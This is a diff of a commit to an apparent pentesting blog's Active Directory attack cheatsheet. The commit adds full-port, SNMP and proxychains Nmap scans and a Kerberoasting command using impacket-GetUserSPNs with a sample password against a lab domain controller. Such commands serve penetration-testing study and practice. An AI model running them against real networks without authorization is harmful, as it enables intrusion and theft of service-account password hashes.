

Before and after one commit to Vorkharium/vorkharium.github.io, a Jekyll site: the page built from _posts/2024-11-01-Attacking-Active-Directory-Cheatsheet.md, in a window 1280 px wide and 900 px high, scrolled down 1677 px. Shown: the whole window, without its empty margins (229-1267 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

````diff
--- a/_posts/2024-11-01-Attacking-Active-Directory-Cheatsheet.md
+++ b/_posts/2024-11-01-Attacking-Active-Directory-Cheatsheet.md
@@ -41,15 +41,20 @@
 nxc smb 172.16.150.0/24
 crackmapexec smb 172.16.150.0/24
 
+# Nmap Scan (Use -v verbose to see active ports before the scan is completed so we can start planning what we could do)
+nmap -A -p- 172.16.150.10 -v
+nmap -A -p- -T4 -Pn 172.16.150.10 -v
+nmap -A -p- -T4 -Pn 172.16.150.0/24 -v
+
 # Nmap ARP Discovery
 nmap -n -sn 172.16.150.0/24
 
-# Nmap Scan
-nmap -Pn -sT -T4 --top-ports 1000 172.16.150.0/24
-sudo nmap -Pn -sT -T4 --top-ports 1000 172.16.150.0/24
+# Nmap UDP SNMP
+sudo nmap -sU -p161 172.16.150.10 -v
+sudo nmap -sU -p161,162,10161,10162 172.16.150.10 -v
 
 # Nmap through Proxychains
-proxychains -q nmap -Pn -sT -T4 --top-ports 1000 172.16.150.0/24
+proxychains -q nmap -A -p- -T4 -Pn 172.16.150.10
 
 # To find out which host is the Domain Controller, look for these typical Domain Controller ports in Nmap the results:
 Port 53 - DNS
@@ -469,6 +474,8 @@
 ### Kerberoasting
 ```shell
 # Kerberoasting from Kali using Impacket-GetUserSPNs
+impacket-GetUserSPNs vorkharium.com/SVC_TGS:'Password123!' -dc-ip 172.16.150.10 -request
+
 impacket-GetUserSPNs -dc-ip 172.16.150.10 vorkharium.com/john -request-user jane
 
 # Kerberoasting from Windows Host using Rubeus.exe
````
Also changed, not shown: _posts/2024-11-02-HTB-Active.md (added, +130 -0 lines), images/htb_active.png (added).
